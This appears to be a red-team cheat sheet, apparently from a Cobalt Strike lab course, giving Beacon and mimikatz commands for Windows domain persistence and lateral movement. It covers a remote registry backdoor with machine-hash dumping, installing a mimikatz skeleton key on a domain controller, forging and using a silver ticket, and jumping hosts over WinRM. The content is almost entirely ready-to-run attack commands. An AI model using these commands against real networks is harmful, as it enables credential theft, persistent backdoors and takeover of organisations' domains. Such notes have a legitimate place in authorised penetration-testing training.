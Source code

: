 ###### <font style="color:#00b3ff">Remote Registry Backdoor</font> 
```
- Add-RemoteRegBackdoor can be run locally on a compromised machine, or remotely with credentials:

	beacon> powershell Add-RemoteRegBackdoor -Trustee DEV\bfarmer

	beacon> ls \\srv-2\c$

	beacon> powershell Get-RemoteMachineAccountHash -ComputerName srv-2
```

###### <font style="color:#00b3ff">Skeleton Key (allows any user to login with mimikatz password)</font> 
```
- Install the key:

	beacon> run hostname

	beacon> mimikatz !misc::skeleton

	beacon> make_token DEV\Administrator mimikatz

	beacon> ls \\dc-2\c$
```


###### <font style="color:#00b3ff">Silver Tickets</font> 
```
- Generate ticket:

	mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:srv-2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi

	/user is the username to impersonate.
	/domain is the current domain name.
	/sid is the current domain SID.
	/target is the target machine.
	/aes256 is the AES256 key for the target machine.
	/ticket is the filename to save the ticket as


-  Use the ticket:

	beacon> make_token DEV\Administrator FakePass
	beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\srv2-cifs.kirbi
	beacon> ls \\srv-2\c$


- Technique and required tickets:
	psexec	CIFS
	winrm	HOST & HTTP
	dcsync (DCs only)	LDAP


- Jump to another host:
	beacon> run klist
	beacon> jump winrm64 srv-2 smb
```
